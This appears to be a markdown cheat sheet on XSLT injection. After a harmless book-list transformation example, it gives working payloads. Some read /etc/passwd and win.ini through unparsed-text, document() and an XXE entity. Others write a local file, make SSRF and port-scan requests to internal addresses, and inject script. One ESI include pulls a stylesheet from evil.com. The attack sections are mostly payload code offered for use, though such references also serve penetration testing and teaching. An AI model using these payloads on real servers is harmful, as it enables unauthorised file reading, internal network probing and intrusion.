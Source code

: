 # XSLT
XSLT can transform XML data into various output formats (HTML, XML, etc.).

## How to use
- xml data
```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="style.xsl"?>
<books>
  <book>
    <title>The Witcher</title>
    <author>Andrzej Sapkowski</author>
    <genre>Fantasy</genre>
  </book>
  <book>
    <title>The Lord of the Rings</title>
    <author>J.R.R. Tolkien</author>
    <genre>Fantasy</genre>
  </book>
</books>

```
- xslt file (style.xsl)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <!-- Define the output as HTML -->
  <xsl:output method="html" encoding="UTF-8" indent="yes" />

  <!-- Template that matches the root element 'books' -->
  <xsl:template match="/books">
    <html>
      <head>
        <title>Book List</title>
        <style>
          body {
            font-family: Arial, sans-serif;
            background-color: #f4f4f9;
            margin: 20px;
          }
          h1 {
            color: #333;
          }
          .book {
            border: 1px solid #ddd;
            padding: 10px;
            margin-bottom: 10px;
            background-color: #fff;
          }
          .title {
            font-size: 18px;
            font-weight: bold;
          }
          .author {
            font-style: italic;
          }
          .genre {
            color: #666;
          }
        </style>
      </head>
      <body>
        <h1>Book List</h1>
        <!-- Loop through each 'book' element in the XML -->
        <xsl:for-each select="book">
          <div class="book">
            <div class="title">
              <xsl:value-of select="title" />
            </div>
            <div class="author">
              <xsl:value-of select="author" />
            </div>
            <div class="genre">
              <xsl:value-of select="genre" />
            </div>
          </div>
        </xsl:for-each>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>

```

## where to find 
In order to exploit this kind of vulnerability you need to be able to store xsl tags in the server side and then access that content

### inject xml file with malicious xslt 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
  <name>John Doe</name>
  <age>30</age>
  <description>
    This is an example of embedded XSLT.
  </description>

  <!-- Embedded XSLT Stylesheet -->
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
</data>

```

### chain with `est injection` attack 
```html
<esi:include src="http://website.com/" stylesheet="http://evil.com/esi.xsl">
</esi:include>
```


## detection


```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```


## read file


```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```
## write to file 
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:result-document href="local_file.txt">
<xsl:text>Write Local File</xsl:text>
</xsl:result-document>
</xsl:template>
</xsl:stylesheet>
```

## SSRF

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:5000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

## js injection
```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```

## xxe
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

## using http 
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/> // get local file
<xsl:value-of select="document('http://172.16.132.1:25')"/>  //port scaning
<xsl:value-of select="document('file:///c:/winnt/win.ini')"/>
</xsl:template>
</xsl:stylesheet>
```

## RCE 
- some times xslt can lead to RCE in certain condtions

check this [documentation](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection#C%23%2FVB.NET%2FASP.NET)

## tools 

- use tool saxonb-xslt to parse xml

```bash
saxonb-xslt -xsl:transformation.xsl catalogue.xml
```
